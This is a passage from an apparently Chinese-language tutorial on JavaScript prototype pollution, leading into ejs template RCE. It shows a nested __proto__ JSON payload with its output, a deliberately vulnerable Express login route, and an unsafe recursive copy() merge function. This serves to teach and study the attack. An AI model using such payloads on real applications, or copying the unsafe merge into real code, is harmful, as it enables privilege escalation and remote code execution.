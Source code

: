 ```
    `}`;
`}`

body=JSON.parse('`{`"__proto__":`{`"__proto__":`{`"query":"Ricky is admin!"`}``}``}`');
copy(user.userinfo,body);
console.log(user.userinfo);
console.log(user.query);
```

`user.query` 被赋值为 `Ricky is admin!`, 说明了我们污染成功, 使得user 去它的 `__proto__` 的 `__proto__` 里找 query 的变量

```
`{` isVIP: false, isAdmin: false `}`
Ricky is admin!
```

在JSON解析的情况下, `__proto__` 会被认为是一个真正的”键名”, 而不代表”原型”, 所以在遍历 `body` 的时候会存在这个键



## ejs 模板引擎 RCE

RCE的前提是需要有原型链污染, 例如一个简单的登录界面

```
router.post('/', require('body-parser').json(),function(req, res, next) `{`
  res.type('html');
  var user = new function()`{`
    this.userinfo = new function()`{`
    this.isVIP = false;
    this.isAdmin = false;    
    `}`;
  `}`;
  utils.copy(user.userinfo,req.body);
  if(user.userinfo.isAdmin)`{`
    return res.json(`{`ret_code: 0, ret_msg: 'login success!'`}`);  
  `}`else`{`
    return res.json(`{`ret_code: 2, ret_msg: 'login fail!'`}`);  
  `}`

`}`);
```

跟进 copy() 函数可以看到合并两个数组内容到第一个数组

```
function copy(object1, object2)`{`
    for (let key in object2) `{`
        if (key in object2 &amp;&amp; key in object1) `{`
            copy(object1[key], object2[key])
        `}` else `{`
            object1[key] = object2[key]
        `}`
    `}`
  `}`
```

